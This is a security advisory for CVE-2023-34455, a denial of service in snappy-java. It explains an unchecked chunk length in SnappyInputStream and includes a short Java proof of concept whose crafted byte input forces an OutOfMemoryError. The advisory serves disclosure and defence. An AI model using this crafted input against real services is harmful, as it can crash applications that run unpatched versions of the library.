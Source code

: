 ```yaml
---
description: CVE-2023-34455, HIGH, snappy-java unchecked chunk length DoS
title: snappy-java unchecked chunk length DoS
date_published: "2023-06-19"
last_updated: "2023-06-19"
xray_id: XRAY-522074
vul_id: CVE-2023-34455
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

snappy-java unchecked chunk length DoS

## Component

org.xerial.snappy:snappy-java

## Affected versions

(,1.1.10.1)

## Description

snappy-java is a fast compressor/decompressor for Java. Due to use of an unchecked chunk length, an unrecoverable fatal error can occur in versions prior to 1.1.10.1.

The code in the function hasNextChunk in the fileSnappyInputStream.java checks if a given stream has more chunks to read. It does that by attempting to read 4 bytes. If it wasn?t possible to read the 4 bytes, the function returns false. Otherwise, if 4 bytes were available, the code treats them as the length of the next chunk.

In the case that the `compressed` variable is null, a byte array is allocated with the size given by the input data. Since the code doesn?t test the legality of the `chunkSize` variable, it is possible to pass a negative number (such as 0xFFFFFFFF which is -1), which will cause the code to raise a `java.lang.NegativeArraySizeException` exception. A worse case would happen when passing a huge positive value (such as 0x7FFFFFFF), which would raise the fatal `java.lang.OutOfMemoryError` error.

Version 1.1.10.1 contains a patch for this issue.

## PoC

```java
package org.example;
import org.xerial.snappy.SnappyInputStream;

import java.io.*;

public class Main {

    public static void main(String[] args) throws IOException {
        byte[] data = {-126, 'S', 'N', 'A', 'P', 'P', 'Y', 0, 0, 0, 0, 0, 0, 0, 0, 0,(byte) 0x7f, (byte) 0xff, (byte) 0xff, (byte) 0xff};
        SnappyInputStream in = new SnappyInputStream(new ByteArrayInputStream(data));
        byte[] out = new byte[50];
        try {
            in.read(out);
        }
        catch (Exception ignored) {

        }
    }
}
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[https://github.com/xerial/snappy-java/blob/05c39b2ca9b5b7b39611529cc302d3d796329611/src/main/java/org/xerial/snappy/SnappyInputStream.java#L388](https://github.com/xerial/snappy-java/blob/05c39b2ca9b5b7b39611529cc302d3d796329611/src/main/java/org/xerial/snappy/SnappyInputStream.java#L388)

[https://github.com/xerial/snappy-java/blob/master/src/main/java/org/xerial/snappy/SnappyInputStream.java](https://github.com/xerial/snappy-java/blob/master/src/main/java/org/xerial/snappy/SnappyInputStream.java)

[https://github.com/xerial/snappy-java/commit/3bf67857fcf70d9eea56eed4af7c925671e8eaea](https://github.com/xerial/snappy-java/commit/3bf67857fcf70d9eea56eed4af7c925671e8eaea)

[https://github.com/xerial/snappy-java/security/advisories/GHSA-qcwq-55hx-v3vh](https://github.com/xerial/snappy-java/security/advisories/GHSA-qcwq-55hx-v3vh)


